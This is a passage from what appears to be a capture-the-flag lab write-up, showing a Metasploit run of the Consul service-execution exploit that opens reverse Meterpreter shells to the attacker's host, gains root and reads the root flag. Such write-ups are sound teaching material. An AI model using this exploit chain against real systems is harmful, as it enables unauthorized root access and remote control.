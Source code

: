 We can the run this exploit and get the root shell:
```
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> run
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Creating service 'AlJxM'
[*] Service 'AlJxM' successfully created.
[*] Waiting for service 'AlJxM' script to trigger
[*] Sending stage (1062760 bytes) to 10.10.11.46
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.11.46:58610) at 2025-07-29 18:52:40 +0200
[*] Removing service 'AlJxM'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Session 1 created in the background.
[*] Exploiting target ::1
[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Creating service 'WExXqeA'
[*] Service 'WExXqeA' successfully created.
[*] Waiting for service 'WExXqeA' script to trigger
[*] Sending stage (1062760 bytes) to 10.10.11.46
[*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.10.11.46:36880) at 2025-07-29 18:52:52 +0200
[*] Removing service 'WExXqeA'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Session 2 created in the background.
[msf](Jobs:0 Agents:2) exploit(multi/misc/consul_service_exec) >> sessions -i

Active sessions
===============

  Id  Name  Type                   Information         Connection
  --  ----  ----                   -----------         ----------
  1         meterpreter x86/linux  root @ 10.10.11.46  10.10.14.10:4444 -> 10.10.11.46:58610 (127.0.0.1)
  2         meterpreter x86/linux  root @ 10.10.11.46  10.10.14.10:4444 -> 10.10.11.46:36880 (::1)

[msf](Jobs:0 Agents:2) exploit(multi/misc/consul_service_exec) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > shell
Process 80852 created.
Channel 1 created.
whoami
root
cat /root/root.txt
7ce496fc6<SNIP>
```